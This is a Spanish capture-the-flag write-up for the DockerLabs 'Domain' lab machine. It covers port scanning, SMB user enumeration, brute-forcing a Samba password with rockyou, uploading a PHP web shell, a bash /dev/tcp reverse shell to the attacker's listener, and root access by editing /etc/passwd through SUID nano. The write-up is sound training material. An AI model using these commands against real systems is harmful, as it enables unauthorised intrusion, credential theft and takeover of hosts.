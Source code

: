 # [Domain](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh domain.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>

`-c 1` ⮞ solo lo repite una vez

<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)

<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que están abiertos los puertos **80**, **445** y **139**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/b7ea8327-2ddf-4d14-a618-e260f3e0f890)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP podemos ver una página la cuál explica ¿Qué es samba?: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/4bd0efb7-0737-426b-b58e-2f4ca64e2bcd)

<br>
<br>

## Samba (Puerto 445)
En primer lugar, listaremos los recursos compartidos con smbmap de la siguiente forma: `smbmap -H 172.17.0.2 -P 445`, observamos los siguientes recursos: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/5921f1a9-2a11-4c28-8322-b17bcf3d9d6b)

<br>

Ahora intentamos enumerar posible usuario de la máquina Domain para posteriormente intentar hacer fuerza bruta al servicio de samba.
<br>

Lo haremos de la siguiente forma `enum4linux -a 172.17.0.2`, podemos ver que nos reporta 2 usuarios `james` y `bob`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/adc5015f-f5f6-40ce-9230-f998216f7ca2)

<br>
<br>

## Hydra / Medusa

Una vez conocemos los posibles usuarios haremos un ataque de fuerza bruta al servicio samba usando hydra en primer lugar, usaremos el usuario bob `hydra -l bob -P /usr/share/wordlists/rockyou.txt smb://172.17.0.2`. <br> 
`-h` ⮞ dirección IP de la máquina victima <br>
`-u` ⮞ nombre del posible usuario <br> 
`-P` ⮞ ruta del rockyou. Para descargar el diccionario [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

<br>

Nos reporta el siguiente error: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/0cc474a4-ec7d-4240-93ee-5c72882793bf)

<br>

Por lo que debemos usar otra herramienta de fuerza bruta (medusa tampoco funciona), en este caso usaremos `crackmapexec` usando el siguiente comando `crackmapexec smb 172.17.0.2 -u bob -p /usr/share/wordlists/rockyou.txt`, podemos ver que usando `crackmapexec` no nos sale el error de antes, y nos reporta lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ace3db99-9351-4693-838a-fce977aaa785)

<br>
<br>

## Samba (Puerto 445)
Una vez conocemos el usuario y su contraseña probamos a entrar al recurso compartido html de la máquina Domain con smbclient de la siguiente forma `smbclient //172.17.0.2/html -U bob`, y a continuación nos pedirá la contraseña. Podemos ver que dentro de este recurso se encuentra el índice de la página web lo que nos da ha entender que todo lo que haya en esa carpeta será accesible desde dicho servidor.

<br>

Por lo que deberíamos hacer ahora sería enviarnos una revshell a nuestra máquina de atacante, lo haríamos de la siguiente forma. En primer lugar nos creamos un `cmd.php` que contendrá lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/84df3bd1-4baf-481d-90bc-705d989992ea)

<br>

Ahora lo podremos dentro de la carpeta compartida (`html`) a través de samba dentro de la máquina Domain. Debemos logearnos a samba como lo hicimos anteriormente (`smbclient`) en la carpeta donde tenemos nuestro `cmd.php`, una vez dentro del samba hacemos `put cmd.php`, y listo ya estaría el archivo subido al servidor web.

<br>

Accederemos a el poniendo `http://172.17.0.2/cmd.php`, y ahora abusaremos de la vulnerabilidad (RCE), podemos ver que si le pasamos el parámetro `id` de la siguiente manera `http://172.17.0.2/cmd.php?cmd=id` nos da esta respuesta:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d886d5da-bb94-49c3-a0f6-7ab2ca43acb5)

<br>

Por lo que ahora nos mandaríamos una revshell poniendo lo siguiente en el buscador `http://172.17.0.2/cmd.php?cmd=bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, recuerda que debemos estar en escucha en un puerto poniendo en la terminal lo siguiente `nc -nlvp 443`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/10637016-dd1d-47d7-98ec-f9e63913b1f5)

<br>
<br>

## Escalada de Privilegios

Antes de empezar a probar como escalar privilegios haremos un sencillo tratamiento de la tty poniendo en orden lo siguiente: <br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

Comprobamos que hemos podido ingresar a la Máquina Víctima como **www-data**, hacemos un `cat /etc/passwd | grep "sh$"` para ver los posibles usuarios: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/fbe027ae-cf12-4d98-93a3-536a8fa9d99f)

<br>

Vemos que también se encuentra el usuario `bob` probamos a autenticarnos haciendo `su bob` y poniendo la contraseña y listo somos el usuario `bob`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/6a08e8b6-4e82-4642-a31a-32af6d3ed12a)

<br>

Si ejecutamos `sudo -l` observamos que no podemos correr nada como sudo.<br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo(sudoers).

<br>

Hacemos la siguiente comprobación para ver la posible escalada ejecutando `find / -perm -4000 2>/dev/null`<br>
`/` ⮞ buscamos desde la raíz <br>
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores <br>

<br>

Y vemos que tenemos permiso SUID sobre `/usr/bin/nano`: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/38e5b90e-429f-48ac-a241-ac0fbf0c0be0)

<br>

Por lo que podríamos hacer con nano es modificar cualquier fichero ya que contamos con permisos SUID, lo que se nos ocurriría sería modificar el `/etc/passwd`, lo que tendríamos que hacer sería quitarle la `x` al root por lo que podríamos logearnos como root sin proporcionar contraseña. Haríamos `nano /etc/passwd` y el archivo quedaría así:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/30eb18a1-0fb6-4081-8655-85ad45a8b88a)

<br>

Y si hacemos `su root` comprobamos que no nos pedirá contraseña y listo ya seremos root.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dd122cf1-b071-4d1b-aef9-62afeb9176fe)
